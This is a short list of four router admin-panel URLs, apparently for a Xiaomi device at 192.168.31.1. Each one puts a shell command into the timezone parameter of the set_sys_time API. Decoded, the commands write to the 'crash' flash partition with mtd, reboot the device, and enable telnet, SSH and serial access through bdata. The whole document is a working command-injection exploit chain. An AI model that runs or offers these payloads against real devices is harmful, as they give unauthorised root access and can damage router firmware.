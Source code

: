 http://192.168.31.1/cgi-bin/luci/;stok=b11640bbe7446ce094f38322443d6827/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20



http://192.168.31.1/cgi-bin/luci/;stok=b11640bbe7446ce094f38322443d6827/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20


http://192.168.31.1/cgi-bin/luci/;stok=d2476fedea6f4bd39078bf06263089c2/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20


http://192.168.31.1/cgi-bin/luci/;stok=d2476fedea6f4bd39078bf06263089c2/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20